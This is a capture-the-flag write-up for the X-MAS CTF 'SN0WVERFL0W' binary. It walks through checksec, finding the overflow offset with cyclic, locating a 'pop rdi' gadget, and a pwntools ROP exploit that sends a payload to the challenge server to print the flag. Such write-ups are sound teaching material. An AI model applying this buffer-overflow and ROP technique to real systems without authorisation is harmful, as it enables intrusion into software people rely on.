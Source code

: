 ![SN0WVERFL0W](src/SN0WVERFL0W%20.png)

first we run chacksec and files:
```shell
[marco@marco-pc challxmas]$ file chall 
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```
```gdb
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		1	/home/marco/Downloads/challxmas/chall
```

As always, the program wait for our input. Using cyclic we can find how many bytes it takes to overwrite RIP.
```gdb
pwndbg> cyclic 40
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
pwndbg> r
Starting program: /home/marco/Downloads/challxmas/chall 
Helloooooo, do you like to build snowmen?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
Mhmmm... Boring...

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401201 in ?? ()
...
RBP  0x6165616161646161 ('aadaaaea')
...
pwndbg> cyclic -l 'aada'
10
```
10 + 8 = 18 bytes. 
The file is stripped but we want to explore the memory. So the idea is executing in gdb and press ctrl+c to stop the program and explore the memory.
Searching some stuff we retive:
```gdb
pwndbg> search X-MAS
chall           0x402010 'X-MAS{REAL FLAG ON THE SERVER}'
chall           0x403010 'X-MAS{REAL FLAG ON THE SERVER}'
pwndbg> plt
0x401030: puts@plt
0x401040: read@plt
0x401050: strcmp@plt
0x401060: setvbuf@plt
```
Since there isn't PIE and we have puts in the plt, we can try to ROP and execute a puts with the flag as argument to print it.
To do that we need a gadget to pop flag address in RDI. Using ROPgadget
```shell
[marco@marco-pc challxmas]$ ROPgadget --binary="chall" > gadgets
[marco@marco-pc challxmas]$ cat gadgets | grep "pop rdi"
0x0000000000401273 : pop rdi ; ret
```


Exploit:
```python
from pwn import *


pop_rdi = 0x0000000000401273
flag1 = 0x402010
puts_plt = 0x0000000000401030
flag2 = 0x403010

payload = ("A"*18).encode()
payload += p64(pop_rdi)
payload += p64(flag1)
payload += p64(puts_plt)


s = remote('challs.xmas.htsp.ro', 12006)
s.recvuntil('?')
s.send(payload)
s.interactive()
```

# FLAG
X-MAS{700_much_5n0000w}

